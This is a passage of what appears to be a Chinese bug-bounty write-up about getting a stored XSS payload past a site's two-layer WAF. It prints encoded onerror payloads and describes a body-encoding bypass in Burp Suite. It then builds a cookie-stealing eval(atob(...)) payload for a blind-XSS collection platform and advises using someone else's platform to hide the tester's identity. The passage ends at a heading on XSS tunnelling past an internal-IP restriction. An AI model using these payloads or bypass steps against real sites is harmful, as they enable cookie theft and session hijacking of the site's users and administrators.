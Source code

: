  **URL编码后的payload大致如下所示：**

 **< image/src=| onerror =
%26%23%78%36%61%26%23%78%36%31%26%23%78%37%36%26%23%78%36%31%26%23%78%37%33%26%23%78%36%33%26%23%78%37%32%26%23%78%36%39%26%23%78%37%30%26%23%78%37%34%26%23%78%33%61%26%23%78%36%31%26%23%78%36%63%26%23%78%36%35%26%23%78%37%32%26%23%78%37%34%26%23%78%32%38%26%23%78%33%31%26%23%78%33%31%26%23%78%33%31%26%23%78%32%39>**

![](https://gitee.com/fuli009/images/raw/master/public/20220923135403.png)

  

 **  5 ** ** ** **Change Body  encoding绕过第2道防护**

提交之后，发现它有两道防护，因为到这一步没有原先的403错误提示了，直接是超时等待了一段时间，说明我们刚才的不懈努力只是绕过了第1道防护，而第2道防护没有绕过去，到这里我已经快放弃了。。。最终经过测试，
**发现使用burpsuite的“change body encoding”把POST数据包格式改一下即可绕过第2道防护** 。

![]()

  

最终将如下格式数据包编码后提交， **< image/src=| onerror =
javascript:alert(document.cookie)>**

最终本地绕过2道防护，可以弹出Cookie了（以下截图为本地虚拟机环境截图，原图敏感，就不放出来了）

![](https://gitee.com/fuli009/images/raw/master/public/20220923135404.png)

  

 **  6 ** ** ** **XSS盲打平台**

接下来就是找XSS盲打平台了，建议大家自己从网上找一个别人搭建好的XSS盲打平台测试吧，因为自己搭建XSS平台，还得买域名、还怕泄露真实身份信息，而且网上的PHP的XSS平台代码也有不少坑，有时候wamp能搭建成功，phpstudy就搭建不成功。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135406.png)

  

最终看了一下XSS平台给出的payload语句，结合javascript为协议，组合成可真正获取Cookie的测试payload如下：

 **< image/src=| onerror =
javascript:eval(atob('cz1jxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxhbmRvbSgp'))>**

 ** **编码成 16进制格式如下：****

![](https://gitee.com/fuli009/images/raw/master/public/20220923135407.png)

  

上图为虚拟机测试图，到这一步呢，我才发现，原来这个src官网，防xss是这样防范的，假设官网的管理员后台地址是https://admin.xxx.src.com.cn。我本地打开这个后台地址，
**发现 这个官网后台限制了只有内网ip才能登陆！**
****到这一步，我才惊讶地发现，原来这样可以防止XSS盲打Cookie的攻击，它直接限制管理员后台的登陆，打到Cookie也没用！难道我们就没有办法了吗？经过一系列查找资料，还是有办法解决的，使用XSS隧道，或者XSS代理。

![](https://gitee.com/fuli009/images/raw/master/public/20220923135408.png)

  

 **  7 ** ** ** **XSS 隧道代理**
